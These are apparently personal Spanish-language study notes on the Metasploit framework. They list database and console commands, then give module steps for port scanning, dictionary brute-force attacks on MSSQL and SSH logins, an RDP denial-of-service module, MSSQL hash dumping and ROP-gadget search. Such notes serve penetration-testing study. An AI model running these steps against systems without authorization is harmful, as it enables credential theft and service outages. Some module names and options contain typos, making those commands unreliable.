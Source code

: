 
Generar mapa mental con cmaptools


**Nivel de base de datos**

db_status
hosts
services
db_import
creds
db_nmap <IP> ; db_nmap -p 3389 <IP>
db_import <random.nessus>  (Using nmap <IP> -oX scan.xml)  Importar procesos de scanning previos
vulns


hosts -h (Borrar la base de datos)

INVESTIGAR DB hosts|services|creds estan relacionados


**Nivel de base de core**

search: buscar algo dentro de todo el framework
show: mostrar opciones (options)
use: Para utilizar un modulo
set: asignar parametros RHOSTS, PORTS ..
run
unset
back
banner
info
check
exploit
sessions
jobs
background


## Ejecutar un modulo auxiliar

    use auxiliary/scanner/portscan/tcp
    show options 10.0.0.5
    set RHOSTS 10.0.0.5
    set PORTS 22,23,25,110,21,3389,1433
    run

**Upgrade to layer-2 VPN pivoting with MEtasploit PRO**






## Ataque diccionario utilizando diccionarios

nano dixionario.txt

use auxiliary/scanner/mssql/mssql_login
show options
set USERNAME sa
set PASSFILE_FILE <path>
set RHOSTS <IP>
run 

Empieza a hacer una combinacion del sa contra todo lo que haya en ese diccionario.
Sino funciona setear otro diccionario y asi sucesivamente.


use auxiliary/scanner/ssh/ssh_login
set PASS_FILE <path>
set RHOSTS <IP>
set USERNAME root
show options




## DOS utilizando modulos auxiliares

> Mandar un paquete corrupto

use auxiliary/dos/windows/rdp/ms12_020_maxchannelids




## Hashdumping utilizando modulos auxiliares

> Volcar hashes mssql, hashdumping <> password cracking. Es decir obtener los hashes.

use auxiliary/scanner/mssql/msssql_hashdump
show options
set PASSWORD
set RHOSTS


Find ROP gadgets
msfrop -v -s "pop ecx" msvcrt.dll
https://www.oreilly.com/library/view/mastering-metasploit/9781788990615/7ca82644-c8ca-4234-beb3-fe7fb3cd8f55.xhtml